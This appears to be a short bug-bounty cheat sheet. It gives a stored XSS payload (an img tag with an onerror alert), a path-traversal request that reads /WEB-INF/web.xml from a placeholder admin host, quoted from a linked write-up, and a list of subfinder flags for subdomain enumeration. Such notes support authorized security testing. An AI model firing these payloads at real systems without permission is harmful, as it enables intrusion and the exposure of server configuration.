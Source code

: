# Payload Stored XSS
#### <img src=x onerror​=alert(origin)>

# Payload LFI
Since we are working in a Java environment, I attempted to read /WEB-INF/web.xml because this file often contains a lot of useful information. By navigating to http://admin.target:8443/admin/download?fileName=/WEB-INF/web.xml, I was able to access some juicy information.! https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea




# subdomain finder

#### subfinder -d yourdomain_name -v  
      -d = particular one domain enumurate <br>
      -dl = Maltipull domain enumurate from a file <br>
      -o, -output string = file to write output to <br>
      -silent = show only subdomains name in output <br>
      -nW, -active = display active subdomains only <br>
      -oI, -ip = include IP address and domain name in output (-active only) <br>
      -max-time int = minutes to wait for enumeration results (default 10) <br>
      -ei, -exclude-ip = exclude IPs from the list of domains <br>
